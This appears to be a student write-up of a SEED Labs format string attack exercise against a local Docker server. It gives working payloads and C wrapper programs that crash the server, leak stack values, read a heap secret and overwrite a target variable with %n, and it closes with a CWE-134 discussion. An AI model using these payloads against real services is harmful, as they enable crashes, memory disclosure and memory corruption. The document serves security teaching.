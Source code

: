 # Question 1

## Setup
To start, we disabled address randomization, as the program's address layout and order is crucial for this attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

The server's program.c was compiled with the **-z execstack** flag to allow code execution within the stack.

We then opened a terminal with the server using Docker from Seed Labs:
```bash
docker-compose build
docker-compose up
```

And another terminal to use as a client to communicate with the servers. This setup allowed us to observe messages exchanged between both sides. We then send the string asked to the server:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```
 ![hello](/docs/images/hello.png)

The server returned necessary information for the following tasks:
- Input buffer address
- Secret message address
- Addresses of a target variable
- Frame pointer for the myprintf function


## Task 1
To crash the server, we sent the following input:

```bash
$ echo '%n' | nc 10.9.0.5 9090
```
 ![crash](/docs/images/crash.png)

The format string attempts to write with %n to a memory address outside the allowed address space of the process caused a crash, resulting in a segmentation fault. The absence of the "Returned properly" message confirmed the server had crashed.


## Task 2

### Task 2.A	
We used "DJLD", represented in hexadecimal as "444A4C44", to print the first 4 bytes of the input from the format string. 
Our initial approach was to input "DJLD" concatenated with multiple "%08x" format specifiers.

```bash
echo "DJLD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
 ```

![letters](/docs/images/letters.png)

The final "444C4A44" is the address of our input "DJLD". Observing that each address has 8 characters (32-bit addresses), we determined there are 63 stack addresses between the format string and the buffer. Thus, a string with exactly 64 "%x" is needed to print the initial 4 bytes of the input.

### Task 2.B
To print a string from the heap at address 0x080b4008, we encoded the address as "\x08\x0b\x40\x08". With 63 "%08x" and a final "%s", the format string reads from this address and returns the hidden value.

We created a func.c file and compiled it:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

```bash
gcc -o func fun.c 
```

And then run it:

```bash
./func
```
 
 ![secret](/docs/images/secret.png)

The server confirmed the message at this address is  "A secret message."


## Task 3

### Task 3.A

Here, we needed to modify the value of the target variable. Initially, it held 0x11223344, and its address was 0x080e5068.
Using %n, like we used in task 1, we could write the count of characters printed so far to the specified address. This approach involved a command similar to Task 2.B, we just wrote to the address instead of reading from it.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

 ![change](/docs/images/change.png)

The target value changed.


### Task 3.B

This time, we needed to set the target variable to a specific value: 0x5000 (20480 in decimal). Knowing %n would write the character count, we crafted an input with 20408 characters, and used %.NX, with N = 19980 (computed by subtracting 4 and the 63 * 8 from 20408), to achieve the required count.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}

```

 ![5000](/docs/images/5000.png)

The target variable was now 0x00005000.


# Question 2:

CWE-134 format string vulnerabilities occur when user-controlled data is unsafely passed to formatting functions, allowing attackers to manipulate memory via format specifiers.
When the format string is on the stack:
Reading stack data is easier using %x or %s, as stack addresses and data are accessible.
Writing to the stack with %n allows attackers to overwrite critical stack values, like local variables or return addresses.
If the format string is on the heap:
Reading and writing to the stack becomes difficult, as %x and %n would target the heap instead.
Attacks relying on stack manipulation, like reading stack addresses or overwriting variables, would fail or be less effective.
Allocating the format string on the stack makes attacks easier, while placing it on the heap complicates exploitation, though it doesn't eliminate the risk.

- Task 2.A - Reading Stack Addresses: The %x attack, which reveals stack addresses, would fail because it depends on accessing stack memory. With the format string on the heap, only heap addresses would be revealed.
- Task 2.B (Reading String from Heap): While this attack relies on reading from a specific heap address, the format string's location in the heap would make it harder to control and predict the memory layout, making the attack less reliable.
- Task 3.A - Writing to Stack Variables with %n: Modifying stack variables using %n would also not work since %n would write to heap memory, not affecting the stack variables.
- Task 3.B - Setting a Specific Value on the Stack with %n: Writing a specific value to the stack with %n would fail because %n would target the heap instead of the intended stack address.


